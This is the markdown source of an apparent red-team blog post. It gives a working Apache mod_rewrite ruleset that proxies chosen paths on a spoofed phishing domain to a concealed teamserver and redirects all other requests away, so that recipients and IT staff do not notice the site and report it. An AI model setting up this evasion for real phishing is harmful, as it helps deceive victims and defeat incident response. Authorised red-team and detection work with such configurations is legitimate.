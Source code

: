 ```yaml
---
layout: post
title: Invalid URI Redirection with Apache mod_rewrite
summary: How to redirect users visiting non-existent file paths in your phishing infrastructure to a different site.
image: /assets/apache/invalid-uri-demo.gif
tags: 
- mod_rewrite
- phishing
---
```


There have been times when a curious phish recipient or a zealous help desk staff has loaded the phishing link in their browser and decided to take a peek at a higher directory or the root domain. Of course, most times there isn't much else site to see. In those cases, the chances of being reported to IR went up significantly, sometimes leading to a phishing campaign being blocked. This is where invalid URI redirection comes in handy.

We can whitelist resources the Apache server will proxy for the targets and redirect any other requests to the target's real domain or another page of our choosing.

In the demo below, the user navigates to *spoofdomain.com/really/long/url.html* and is served a page; however, when the user navigates to *spoofdomain.com/really/* the browser is redirected to *google.com*.

![Invalid URI Redirection Demo](/assets/apache/invalid-uri-demo.gif)

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(profiler|payload)/?$</span> <span style="color: mediumpurple">[NC,OR]</span><br>
RewriteCond <span style="color: dodgerblue">%{HTTP_REFERER}</span> <span style="color: mediumseagreen">^http://SPOOFED-DOMAIN\.com</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is either '/profiler' or '/payload' (with an optional trailing slash), </span> <span style="color: mediumpurple"> ignoring case; OR </span><br>
<span style="color: dodgerblue">If the request's referer </span> <span style="color: mediumseagreen">starts with 'http://SPOOFED-DOMAIN.com', </span> <span style="color: mediumpurple">ignoring case</span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve the </span><span style="color: dodgerblue">original request path </span><span style="color: orange">from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

There are two handy mod_rewrite regex strings being used in this ruleset. The first is the `/?$` string on line two. In the RewriteCond context, the question mark indicates that the previous character, the trailing slash in the example, is optional. Without this regex, RewriteCond would only match the path exactly as written in the ruleset. The dollar sign signifies the end of the URI, meaning the request */payload1* would not match.

The second useful regex is the question mark in the last line. In the RewriteRule context, the question mark tells Apache to drop the query string from the redirected request. 

Since the Proxy `[P]` flag is set on the first RewriteRule, the address bar will still show the original domain name and just append the requested URI to the end of the address. Conversely, if the request doesn't match either condition, the request will be redirected and the address bar will update and show companydomain.com.


A similar use for this redirection would be to redirect all request URIs to one payload. For instance, if you were phishing users in different departments and each email scenario's link was unique you could redirect all users to a single payload without needing to stand up separate copies. To achieve this, simply remove the `$` from the first RewriteCond line. Now the rule will match */profiler* and */profiler/humanresources/legitimatepage.html*.

Redirecting requests with invalid URIs can help a phishing website pass the sniff test for prying recipients or IT. By redirecting non-existent resources users won't reach any index listings or 404 errors on pages that should logically exist. 

# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* Invalid URI Redirection
* [Operating System Based Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-04-05-operating-system-based-redirection-with-apache-mod_rewrite/)
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)

{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)